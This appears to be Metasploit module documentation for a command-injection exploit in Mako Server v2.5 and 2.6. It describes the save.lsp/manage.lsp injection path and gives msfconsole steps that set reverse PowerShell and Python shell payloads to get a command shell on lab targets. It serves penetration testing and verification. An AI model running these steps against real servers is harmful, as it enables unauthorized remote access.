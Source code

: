 ## Vulnerable Application

  This module exploits a vulnerability found in Mako Server v2.5, 2.6.
  It's possible to inject arbitrary OS commands in the Mako Server tutorial page through a PUT request to save.lsp. Attacker input will be saved on the victims machine and can be executed by sending a GET request to manage.lsp.

  Based on the public PoC found here: https://blogs.securiteam.com/index.php/archives/3391

  [Mako Server](https://makoserver.net) is an application framework for designing web and IoT applications.

  This module has been verified against the following Mako Server versions for Windows XP SP3, Windows 7 SP1 and Linux Ubuntu 16.04 LTS:
  - v2.5
  - v2.6

  Links:
  - [Windows x86 installer](https://makoserver.net/download/mako.windows.x86.exe)
  - [Windows download page](https://makoserver.net/download/windows)
  - [Linux x64 installer](https://makoserver.net/download/mako.linux-x64.tar.gz)
  - [Linux download page](https://makoserver.net/download/linux-x86)
  - [Documentation](https://makoserver.net/download/manual)

## Verification Steps

### Windows

  1. Run the installer "mako.windows.x86" on a Windows 7 SP1 (x86/x64) target (with Powershell for this example to work)
  2. After installer finishes, double click the "Mako-Demo" shortcut on the desktop
  4. Start msfconsole on host
  5. Do: ```use exploit/multi/http/makoserver_cmd_exec```
  6. Do: ```set RHOST <IP address of target system>```
  7. Do: ```set PAYLOAD cmd/windows/reverse_powershell```
  8. Do: ```set LHOST <IP address of host system>```
  9. Do: ```exploit```
  10. You should get a Windows command shell

## Verification Steps

### Linux

  1. Extract the "mako.linux-x64.tar.gz" on a Linux Ubuntu 16.04 LTS (x64) target (with Python for this example to work)
  2. From inside the extracted folder, do ```./rundemo.sh```
  4. Start msfconsole on host
  5. Do: ```use exploit/multi/http/makoserver_cmd_exec```
  6. Do: ```set RHOST <IP address of target system>```
  7. Do: ```set PAYLOAD cmd/unix/python_reverse```
  8. Do: ```set LHOST <IP address of host system>```
  9. Do: ```exploit```
  10. You should get a Linux command shell (may need to wait ~30 seconds)
